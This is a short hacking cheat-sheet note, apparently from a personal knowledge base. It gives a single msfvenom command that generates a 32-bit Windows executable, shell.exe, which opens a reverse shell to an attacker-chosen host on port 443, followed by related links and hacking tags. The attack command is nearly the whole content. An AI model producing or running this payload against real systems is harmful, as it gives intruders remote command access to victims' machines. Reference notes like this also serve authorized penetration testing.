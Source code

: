 # MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

# Related

- [20221003150775](/zet/20221003150775/README.md) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #assorted #command #hacking #msfvenom
